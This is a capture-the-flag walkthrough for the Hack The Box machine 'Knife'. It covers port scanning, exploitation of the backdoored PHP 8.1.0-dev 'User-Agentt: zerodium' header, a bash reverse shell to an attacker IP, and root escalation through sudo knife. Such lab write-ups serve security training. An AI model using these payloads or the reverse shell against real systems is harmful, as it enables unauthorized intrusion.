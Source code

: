 # HTB: Knife

## 📌 Box Info
- **Name:** Knife
- **IP:** 10.10.10.242
- **OS:** [Linux](Linux)
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.242
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.242
```

---

## 🖼️ Web Enumeration
```bash
# Server response shows:
# X-Powered-By: PHP/8.1.0-dev

# Directory fuzzing:
feroxbuster -u http://10.10.10.242 -o scans/feroxbuster-root-php
```

---

## ⚔️ [PHP Backdoor RCE (CVE-2021-XXXXX)](HTTP)
```http
# Send request with User-Agentt: zerodium
# PHP code in header gets executed.

GET / HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodium system('id');
```

---

## 🚀 Reverse Shell
```bash
# On attacker machine:
nc -lnvp 443

# In Burp / curl:
User-Agentt: zerodium system('bash -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1"');
```

### Shell Upgrade
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
reset
export TERM=screen
```

---

## 🔎 Enumeration (as james)
```bash
whoami
hostname
sudo -l
```

---

## 🔒 Privilege Escalation via `knife`
```bash
# Check sudo rights:
sudo -l
# Output: (root) NOPASSWD: /usr/bin/knife
```

### Method 1: GTFObins - `knife exec`
```bash
sudo knife exec -E "exec '/bin/bash'"
```

### Method 2: Vim Escape
```bash
sudo knife data bag create test output -e vim
# In vim: :!/bin/bash
```

---

## ✅ Flags
```bash
cat /home/james/user.txt
cat /root/root.txt
```

---

## 📋 Resources
- [PHP Backdoor Info](https://news-web.php.net/php.internals/113838)
- [GTFObins - knife](https://gtfobins.github.io/gtfobins/knife/)
- [PHP 8.1.0-dev CVE Threads](https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-insert-secret-backdoor-to-php-source-code/)

